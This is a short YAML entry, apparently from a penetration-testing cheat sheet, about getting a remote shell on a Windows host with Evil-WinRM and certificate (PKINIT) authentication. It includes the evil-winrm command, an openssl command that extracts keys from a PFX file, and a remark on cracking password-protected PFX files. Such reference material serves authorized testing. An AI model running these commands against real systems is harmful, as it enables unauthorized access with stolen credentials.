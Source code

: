 ```yaml
---
description: |
  Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host. Winrm Supports PKINIT, meaning if you have a computers PFX file, you can authenticate and get a shell. Note that the command requires a public and a private key in PEM format, that can be extracted by converting the PFX to PEM format. Take a look at the references for more info on that. Password protected PFX files can be cracked with JohnTheRipper.

  Command Reference:

  	Target IP: 10.10.10.1

  	PFX File: cert.pfx

  	Domain: EVILCORP

command: |
  evil-winrm -i 10.10.10.1 -c pub.pem -k priv.pem -S -r EVILCORP

code: |
  openssl pkcs12 -in certificate.pfx -out certificate.pem -clcerts

items:
  - PFX
services:
  - WMI
OS:
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/Hackplayers/evil-winrm
  - https://book.hacktricks.xyz/cryptography/certificates
---
```

